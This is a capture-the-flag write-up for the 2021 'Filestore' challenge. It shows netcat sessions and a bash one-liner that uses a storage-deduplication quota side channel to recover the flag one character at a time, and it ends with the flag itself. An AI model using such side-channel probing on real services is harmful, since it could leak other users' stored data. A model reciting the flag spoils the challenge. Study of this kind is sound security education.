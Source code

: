 # FILESTORE

## Description

We stored our flag on this platform, but forgot to save the id. Can you help us restore it?

`filestore.2021.ctfcompetition.com 1337`

## Solution

Let's analyze the challenge

```terminal
$ nc filestore.2021.ctfcompetition.com 1337
== proof-of-work: disabled ==
Welcome to our file storage solution.

Menu:
- load
- store
- status
- exit
```

So we can 
- `load` -> retrieve the stored text using the id
```
Send me the file id...
QpNmkzQzzHy4SV8i
123
```
- `store` -> store some text
```
Send me a line of data...
123
Stored! Here's your file id:
QpNmkzQzzHy4SV8i
```
- `status` -> view the memory status
```
User: ctfplayer
Time: Sun Jul 18 20:11:24 2021
Quota: 0.026kB/64.000kB
Files: 1
```
- `exit` -> close the connection

Before analyzing the given file we started to make some test and found that if we enter `CTF{` the `Quota` value didn't change

```terminl
$ nc filestore.2021.ctfcompetition.com 1337
== proof-of-work: disabled ==
Welcome to our file storage solution.

Menu:
- load
- store
- status
- exit
status
User: ctfplayer
Time: Sun Jul 18 20:16:51 2021
Quota: 0.026kB/64.000kB
Files: 1

Menu:
- load
- store
- status
- exit
store
Send me a line of data...
CTF{
Stored! Here's your file id:
kVLwEEpyVwpqwoI4

Menu:
- load
- store
- status
- exit
status
User: ctfplayer
Time: Sun Jul 18 20:16:59 2021
Quota: 0.026kB/64.000kB
Files: 2
```

So maybe we can bruteforce one character of the flag per time
I use this bash command and find each character in the flag. x_x

```terminal
$ echo "store\nCTF{\nstatus\nexit" | nc filestore.2021.ctfcompetition.com 1337 | grep Quota
```

#### **FLAG >>** `CTF{CR1M3_0f_d3dup1ic4ti0n}`

